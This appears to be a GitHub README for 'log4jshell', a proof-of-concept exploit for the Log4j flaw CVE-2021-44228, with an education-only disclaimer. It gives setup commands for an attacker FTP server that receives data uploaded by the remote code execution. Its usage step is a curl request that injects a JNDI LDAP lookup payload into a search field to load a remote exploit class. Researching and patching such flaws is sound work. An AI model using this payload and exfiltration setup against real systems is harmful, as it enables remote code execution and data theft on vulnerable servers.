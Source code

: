 # log4jshell
log4jshell is an full fledged POC that exploit LOG4J vulnerability [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) introduced as part of [LOG4J2-313](https://issues.apache.org/jira/browse/LOG4J2-313)  

```
NOTE : 

PLEASE USE THIS APP ONLY FOR EDUCATION PURPOSE.

THIS APP IS DEVELOPED AS A PROOF OF CONCEPT(POC) AND IS INTENTEDED ONLY FOR EDUCATION PURPOSE. 

USING THIS POC APP TO TARGET AGAINST ANY SYSTEMS WITHOUT CONSENT IS PURELY ILLEGAL.

ANY DAMAGES CAUSED DUE TO ILLEGAL USE OF THIS APP/SOFTWARE/POC IS NOT THE RESPONSIBILITY OF THE AUTHOR.

```
![Log4JShell POC](https://user-images.githubusercontent.com/1702155/148016568-357dada4-736f-4e54-a585-5ba70e0d86ba.jpg)


## Pre-requisites
* [Python 3](https://www.python.org/downloads/)
* [Java 1.8](https://docs.oracle.com/javase/8/docs/technotes/guides/install/install_overview.html)
* [Apache Tomcat 1.9](https://tomcat.apache.org/download-90.cgi)
* [IntelliJ CE or Eclipse](https://www.jetbrains.com/idea/)


## Installation

Use the python package manager [pip3](https://pip.pypa.io/en/stable/) to install foobar.

```bash
pip3 install pyftpdlib
```

Create the FTP upload directory where the RCE will upload the information

```bash
mkdir -p /tmp/ftpuploads
```

Start the FTP Server locally
```bash
python3 src/main/python/attacker/ftp-server.py
```

## Usage

```bash
curl --location --request GET 'http://localhost:8080/log4jshell/search' \
--header 'Content-Type: application/json' \
--data-raw '{
    "searchText" : "${jndi:ldap://localhost:8389/com.demo.exploit.log4jshell.attacker.payload.Exploit.class}"
}
'
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## Acknowledgments

Some of the references code that I have used to build this POC are listed below

* [Apache Log4j Security Vulnerabilities](https://logging.apache.org/log4j/2.x/security.html)
* [rfc2713](https://datatracker.ietf.org/doc/html/rfc2713)
* [marshalsec](https://github.com/mbechler/marshalsec)
* [veracode-research](https://github.com/veracode-research/rogue-jndi)
* [black hat](https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf)


